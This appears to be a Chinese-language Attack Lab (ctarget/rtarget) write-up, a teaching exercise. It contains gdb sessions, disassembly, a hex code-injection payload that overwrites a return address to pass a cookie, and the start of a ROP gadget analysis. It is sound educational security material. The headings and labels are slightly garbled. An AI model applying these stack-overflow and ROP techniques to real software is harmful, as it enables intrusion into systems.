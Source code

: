 
注释图片：https://upload-images.jianshu.io/upload_images/1433829-4f564d4ccfc8b962.png?imageMogr2/auto-orient/strip|imageView2/2/format/webp

```
0000000000401ab0 <test>:
  401ab0:	48 83 ec 08          	sub    $0x8,%rsp
  401ab4:	b8 00 00 00 00       	mov    $0x0,%eax
  401ab9:	e8 34 fe ff ff       	callq  4018f2 <getbuf>
```
打断点找到存储字符串的地址，使用gdb看一下test栈空间地址。
```
(gdb) break *0x401ab4
Breakpoint 1 at 0x401ab4: file visible.c, line 92.
(gdb) run -q
Starting program: /home/jovyan/lab3/target30/ctarget -q
Cookie: 0x4bca8e48

Breakpoint 1, test () at visible.c:92
92      visible.c: No such file or directory.
(gdb) info r rsp
rsp            0x556489b8       0x556489b8
```
将这个地址写入`%rdi`并同时在攻击中覆盖原返回地址（对齐后·）时，加上字符串`cookie`转化为16进制的表示，这样`cookie`的十六进制表示就在调用。
```
aws:
48 c7 c7 b8 89 64 55 68
42 1a 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00
98 89 64 55 00 00 00 00
34 62 63 61 38 65 34 38
00
```


## touch4
这道题要求我们再次调用`touch2`函数，但是不同的是，本题采用了随机地址，用随机化使得堆栈位置在每次运行时不同。
这使得无法确定注入的代码将被放置在哪里。并且将保存堆栈的内存区域标记为不可执行，因此即使能将程序计数器设置为注入代码的开头，
程序也会出现分段错误。
所以我们采取另一种思路，使用程序中已有的代码来进行攻击，根据题目说明可知所需要的所有`gadge`t可以在`rtarget`的代码区域中找到，
该区域由函数`tart_farm`和`mid_farm`界定。我们来看这些函数：
```
0000000000401ad9 <start_farm>:
  401ad9:	b8 01 00 00 00       	mov    $0x1,%eax
  401ade:	c3                   	retq   

0000000000401adf <setval_185>:
  401adf:	c7 07 19 58 90 90    	movl   $0x90905819,(%rdi)
  401ae5:	c3                   	retq   

0000000000401ae6 <addval_407>:
  401ae6:	8d 87 2a 58 90 90    	lea    -0x6f6fa7d6(%rdi),%eax
  401aec:	c3                   	retq   

0000000000401aed <addval_494>:
  401aed:	8d 87 48 89 c7 90    	lea    -0x6f3876b8(%rdi),%eax
  401af3:	c3                   	retq   

0000000000401af4 <addval_406>:
  401af4:	8d 87 48 89 c7 90    	lea    -0x6f3876b8(%rdi),%eax
  401afa:	c3                   	retq   

0000000000401afb <getval_116>:
  401afb:	b8 48 89 c7 92       	mov    $0x92c78948,%eax
  401b00:	c3                   	retq   

```